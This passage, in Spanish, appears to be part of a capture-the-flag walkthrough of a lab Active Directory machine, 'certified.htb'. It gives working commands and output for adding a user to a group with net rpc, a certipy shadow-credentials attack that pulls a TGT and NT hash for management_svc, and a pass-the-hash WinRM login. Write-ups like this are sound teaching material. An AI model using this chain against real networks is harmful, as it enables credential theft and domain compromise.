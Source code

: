 - Ahora nos vamos añadir al grupo.

```bash
❯ net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%'judith09' -S 10.10.11.41
```

- Bien ahora que estamos dentro vamos a comprobarlo.

```bash
❯ net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

- Ahora tenemos que explotar el `GenericWrite` para obtener el `TGT` de `management_svc` <https://www.hackingarticles.in/abusing-ad-dacl-genericwrite/>.

- Podemos obtener rápido el TGT sincronizándonos con el reloj y usando `certipy` aunque podrías usar las herramientas de `/PKINITtools/` .

```bash
❯ timedatectl set-ntp false
❯ sudo ntpdate 10.10.11.41
```

```bash
❯ certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'ec4c1620-af0e-bade-bcb3-f9ec1a327f79'
[*] Adding Key Credential with device ID 'ec4c1620-af0e-bade-bcb3-f9ec1a327f79' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID 'ec4c1620-af0e-bade-bcb3-f9ec1a327f79' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

- Vamos a comprobar que sea correcto.

```bash
❯ netexec winrm 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```
